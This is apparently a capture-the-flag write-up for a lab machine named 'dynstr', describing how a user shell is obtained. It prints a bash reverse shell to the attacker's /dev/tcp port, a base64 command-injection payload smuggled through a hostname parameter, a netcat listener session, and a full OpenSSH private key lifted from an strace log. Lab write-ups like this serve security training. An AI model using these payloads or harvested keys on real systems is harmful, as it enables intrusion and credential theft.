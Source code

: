 ## Obtaining User flag
Firstly, we have to obtain a Base64 encoding of the following payload:
```
bash -i >& /dev/tcp/<IP address of your local machine>/3000 0>&1
```

Afterwards, we have to replace the hostname payload on the URL with a URL-encoded payload of the following format:
```
" | echo <Base 64 encoded payload>|base64 -d|bash;dynamicdns.no-ip.htb
```
After obtaining the reverse shell on our local machine, we will have to first stabilize the shell.
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000                              
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.244] 47558
bash: cannot set terminal process group (794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ic$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@dynstr:/var/www/html/nic$ export TERM=xterm
export TERM=xterm
www-data@dynstr:/var/www/html/nic$ stty cols 132 rows 34
stty cols 132 rows 34
```
We were able to find the user flag in ```/home/bindmgr``` directory. However, we realize that we do not have the correct privileges to view the file.
```
www-data@dynstr:/var/www/html/nic$ cd /home/bindmgr
cd /home/bindmgr
www-data@dynstr:/home/bindmgr$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@dynstr:/home/bindmgr$ 
```

Viewing the ```strace-C62796521.txt``` in the same directory, we were able to find an OPENSSH key that we will save to our local directory and try to SSH into the server.
```
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
```
